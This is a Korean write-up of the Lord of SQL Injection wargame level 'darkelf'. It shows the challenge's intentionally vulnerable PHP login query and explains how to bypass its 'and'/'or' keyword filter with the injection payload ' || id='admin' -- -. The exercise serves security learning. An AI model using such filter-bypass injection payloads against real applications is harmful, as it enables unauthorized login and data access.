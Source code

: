 # Lord of SQL Injection No.6 - darkelp
## 문제 출제 의도
'and', 'or' 없이 SQL문을 조작 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스코드
darkelp의 소스코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect();  
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("darkelf"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - GET방식으로 받은 pw 값에 'and'나 'or'가 들어있으면 "hehe"가 출력되고 문제 풀이에 실패한다.
    - 받아온 id 값에 0이 아닌 다른 값이 있다면 "Hello + id"가 출력된다.
    - 문제 풀이에 성공하는 조건은 데이터베이스에서 받아온 아이디 값이 'admin'일떄 이다.
## 문제 해결
+ 추가 문자열
    - admin 값을 id로 받아오기 위해서는 다음과 같은 문자열이 URL다음에 추가되어야 한다.
    ~~~
    ?pw=' or id='admin' -- -
    ~~~

+ || 이용
    - ||을 이용하면 or을 사용하지 않고 문자열을 조작할 수 있다.
    ~~~
    ?pw=' || id='admin' -- -
    ~~~
    따라서 위와 같은 문자열을 URL뒤에 추가하면 문제가 해결 된다.